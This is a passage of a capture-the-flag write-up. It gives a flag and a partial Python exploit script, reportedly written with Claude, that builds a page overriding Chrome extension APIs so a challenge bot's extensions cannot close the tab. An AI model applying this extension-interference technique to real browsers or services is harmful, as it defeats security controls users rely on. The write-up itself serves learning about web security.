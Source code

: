 And you can reward yourself with a nice flag: 

`.;,;.{th3_d0wns1d3s_0f_3xt_ap1_abus3_and_r0ll1ng_y0ur_0wn_ur1_pars3rs}`

### Extension Mania Revenge

Essentially the same solve but I (claude) did more extreme methods in order to stop the extension from exiting the tab. 

```python
import requests
import time
import urllib3

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Target configuration
TARGET = "https://web-extension-mania-revenge-rftb7avs.smiley.cat"  # Change to remote URL if needed
FLAG_HOST = "coolctfgames.localhost"
PORT = 3000

def exploit():
    # New exploit approach: Since we can't fake the origin, we need to:
    # 1. Update the page with content that disables/crashes the extensions
    # 2. Make the bot visit the ACTUAL correct origin
    # 3. The page at the correct origin will use our custom HTML that prevents extension interference
    
    exploit_html = """
    <!DOCTYPE html>
    <html>
    <head>
        <meta charset="UTF-8">
        <title>Extension Bypass</title>
        <script>
        // Immediately try to interfere with extension execution
        (function() {
            // Override chrome APIs to prevent extension communication
            if (typeof chrome !== 'undefined') {
                try {
                    // Poison the chrome.tabs API
                    Object.defineProperty(window, 'chrome', {
                        get: function() {
                            return {
                                tabs: {
                                    query: function(info, callback) {
                                        // Return empty array to make extension think no tabs exist
                                        callback([]);
                                    },
                                    remove: function() {
                                        // Do nothing
                                        return Promise.resolve();
                                    }
                                },
                                runtime: {
                                    lastError: null,
                                    onStartup: {
                                        addListener: function() {}
                                    }
                                },
                                notifications: {
                                    create: function() {}
                                }
```